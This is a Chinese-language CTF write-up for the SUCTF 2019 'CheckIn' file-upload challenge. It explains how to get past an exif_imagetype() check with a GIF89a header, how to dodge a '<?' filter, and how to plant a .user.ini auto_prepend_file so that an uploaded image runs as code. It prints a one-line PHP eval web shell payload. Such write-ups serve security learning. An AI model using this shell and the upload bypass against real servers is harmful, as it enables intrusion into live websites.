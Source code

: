 # \[SUCTF 2019]CheckIn

## \[SUCTF 2019]CheckIn

## 考点

* exif\_imagetype()函数绕过
* 文件上传.user.ini

## wp

随便上传一个php文件试试

![](<../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

上传一个空的gif文件（就是新建空白txt再把后缀改成gif）判断有没有检查其他东西，会提示`exif_imagetype:not image!`，加上文件头`GIF89a`，就成功了。

试试上传正常图片

![](<../.gitbook/assets/image (26) (1) (1) (1).png>)

这儿可以猜测是`exif_imagetype()`函数判断是不是图片，在文件头添加图片头就可以绕过了，例如gif的文件头GIF89a

然后制作图片马上传

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

&#x20;上传条件

1. 不能上传带有`<?`的文件，使用`<script language="php">xxx</script>`绕过
2. 上传的文件必须含有图片头

考虑使用.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的。那么这里利用是 .user.ini ，而且.user,ini利用的范围比.htaccess更广

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP\_INI\_SYSTEM、PHP\_INI\_PERDIR、PHP\_INI\_ALL、PHP\_INI\_USER

![](<../.gitbook/assets/image (14) (1).png>)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为`PHP_INI_PERDIR` 、 `PHP_INI_USER`的设置。

在php配置项中有两个比较有意思的项`auto_prepend_file`和`auto_append_file`，相当于指定一个文件，要执行脚本前自动包含，类似于在脚本文件前调用了require()函数。`auto_prepend_file`是在脚本文件前插入，而`auto_append_file`是在脚本文件最后才插入。

那么思路就有了，先上传图片马，然后利用.user.ini解析图片马，进行getshell

上传的.user.ini

![](<../.gitbook/assets/image (3) (1) (1).png>)

上传的shell，常用一句话`GIF89a? <script language="php">eval($_POST[1])</script>`

![](<../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

然后直接访问`/uploads/04b0951938d905b41348c1548f9c338b/`即可，因为`auto_prepend_file`自动包含了`shell.gif`

## 小结

1. 不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用`.php.ini`。
2. [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
